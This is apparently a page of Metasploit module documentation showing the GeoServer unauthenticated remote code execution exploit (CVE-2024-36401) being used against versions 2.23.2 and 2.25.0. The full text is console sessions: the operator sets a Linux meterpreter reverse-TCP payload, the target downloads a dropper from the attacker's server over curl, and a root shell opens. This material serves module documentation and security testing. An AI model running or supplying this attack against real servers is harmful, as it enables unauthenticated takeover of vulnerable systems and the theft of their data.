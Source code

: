 ```msf
msf6 exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > set target 1
target => 1
msf6 exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > set payload linux/x64/meterpreter_reverse_tcp
payload => linux/x64/meterpreter_reverse_tcp
msf6 exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > set srvport 1981
srvport => 1981
msf6 exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Trying to detect if target is running a vulnerable version of GeoServer.
[+] The target appears to be vulnerable. Version 2.23.2
[*] Executing Linux Dropper for linux/x64/meterpreter_reverse_tcp
[*] Using URL: http://192.168.201.8:1981/FEflDEJ
[*] Client 192.168.201.42 (curl/7.74.0) requested /FEflDEJ
[*] Sending payload to 192.168.201.42 (curl/7.74.0)
[*] Command Stager progress - 100.00% done (113/113 bytes)
[*] Meterpreter session 10 opened (192.168.201.8:4444 -> 192.168.201.42:60353) at 2024-07-11 18:48:02 +0000
[*] Server stopped.

meterpreter > sysinfo
Computer     : 172.21.0.2
OS           : Debian 11.3 (Linux 6.6.32-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root
meterpreter > pwd
/mnt/geoserver
meterpreter >
```
###  GeoServer 2.25.0 on osgeo.org/geoserver docker image - linux/x64/meterpreter_reverse_tcp
```msf
msf6 exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > set target 1
target => 1
msf6 exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > set payload linux/x64/meterpreter_reverse_tcp
payload => linux/x64/meterpreter_reverse_tcp
msf6 exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Trying to detect if target is running a vulnerable version of GeoServer.
[+] The target appears to be vulnerable. Version 2.25.0
[*] Executing Linux Dropper for linux/x64/meterpreter_reverse_tcp
[*] Using URL: http://192.168.201.8:1981/CEkJIBo
[*] Client 192.168.201.42 (curl/7.81.0) requested /CEkJIBo
[*] Sending payload to 192.168.201.42 (curl/7.81.0)
[*] Command Stager progress - 100.00% done (113/113 bytes)
[*] Meterpreter session 11 opened (192.168.201.8:4444 -> 192.168.201.42:61350) at 2024-07-11 20:46:14 +0000
[*] Server stopped.

meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Ubuntu 22.04 (Linux 6.6.32-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
```